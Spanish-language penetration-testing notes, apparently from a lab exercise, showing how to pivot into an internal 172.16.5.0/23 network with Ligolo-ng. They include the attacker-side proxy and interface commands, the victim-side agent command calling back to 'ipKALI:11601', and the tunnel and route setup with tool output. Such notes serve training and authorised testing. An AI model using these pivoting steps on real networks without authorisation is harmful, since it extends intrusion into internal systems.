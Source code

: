 # Alternativa Ligolo
- Ligolo es una buena alternativa sin tener que utilizar SOCKS ni proxychains que suelen ser engorrosos y generan mucha latencia en la red.
- Primero hay que [descargarse los binarios de agente y proxy](https://github.com/nicocha30/ligolo-ng/releases)

- **En maquina atacante:** `sudoligolo-proxy -selfcert`
```
ligolo-ng » interface_create --name "pivot"
INFO[0022] Creating a new "pivot" interface...          
INFO[0022] Interface created!                           
ligolo-ng »  
```
- **En maquina victima:** `./agent -connect ipKALI:11601 -ignore-cert`
- **En maquina atacante**
```
ligolo-ng » session
? Specify a session : 1 - ubuntu@WEB01 - 10.129.115.194:42414 - 00a21e69-4e53-4dec-9139-fb12ae570838
```
- Y ahora iniciamos el tunnel
```
[Agent : ubuntu@WEB01] » tunnel_start --tun pivot
[Agent : ubuntu@WEB01] » INFO[0334] Starting tunnel to ubuntu@WEB01 (00a21e69-4e53-4dec-9139-fb12ae570838) 
```

#### Crear routing hacia la interfaz que queremos alcanzar

```
[Agent : ubuntu@WEB01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens192                           │
│ Hardware MAC │ 00:50:56:b0:df:18                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.115.194/16                │
│ IPv6 Address │ dead:beef::250:56ff:feb0:df18/64 │
│ IPv6 Address │ fe80::250:56ff:feb0:df18/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:b0:92:e9              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:feb0:92e9/64    │
└──────────────┴────────────────────────────────┘
[Agent : ubuntu@WEB01] » interface_add_route --name pivot --route 172.16.5.129/23
INFO[0423] Route created.                               
[Agent : ubuntu@WEB01] »  
```